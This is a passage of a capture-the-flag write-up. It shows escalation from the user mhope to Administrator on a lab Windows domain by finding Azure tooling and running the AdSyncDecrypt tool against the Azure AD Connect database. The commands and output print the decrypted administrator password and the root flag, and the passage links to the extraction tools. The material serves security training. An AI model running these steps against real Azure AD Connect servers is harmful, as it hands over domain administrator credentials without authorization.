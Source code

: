 ### Privilege Escalation : mhope to Administrator

Then there is a hidden folder:

```
*Evil-WinRM* PS C:\Users\mhope\.Azure> dir -Force

    Directory: C:\Users\mhope\.Azure

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/3/2020   5:35 AM                ErrorRecords
-a----         1/3/2020   5:31 AM             34 AzurePSDataCollectionProfile.json
-a----         1/3/2020   5:35 AM           2794 AzureRmContext.json
-a----         1/3/2020   5:31 AM            191 AzureRmContextSettings.json
-a----         1/3/2020   5:36 AM           7896 TokenCache.dat
```

We have azure powershell already loaded https://github.com/Azure/azure-powershell

```
*Evil-WinRM* PS C:\Users\mhope\.Azure> Get-AzContext

Name                                     Account                                              SubscriptionName                                    Environment                                         TenantId
----                                     -------                                              ----------------                                    -----------                                         --------
372efea9-7bc4-4b76-8839-984b45edfb98 ... john@a67632354763outlook.onmicrosoft.com                                                                 AzureCloud                                          372efea9-7bc4-4b76-8839-984b45edfb98
```

There is great resources and tools about exploiting _Azure AD Connect_.

- [Azure AD Connect Database Exploit (Priv Esc)](https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)
- [Azure AD Connect password extraction](https://github.com/fox-it/adconnectdump)

You can fidn a pre-compiled version of `AdSyncDecrypt` [here](https://github.com/VbScrub/AdSyncDecrypt/releases).

```
C:/Users/mhope/.Azure/AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL

*Evil-WinRM* PS C:\Users\Administrator\Documents> gc ../Desktop/root.txt
12909612d25c8dcf6e5a07d1a804a0bc
```
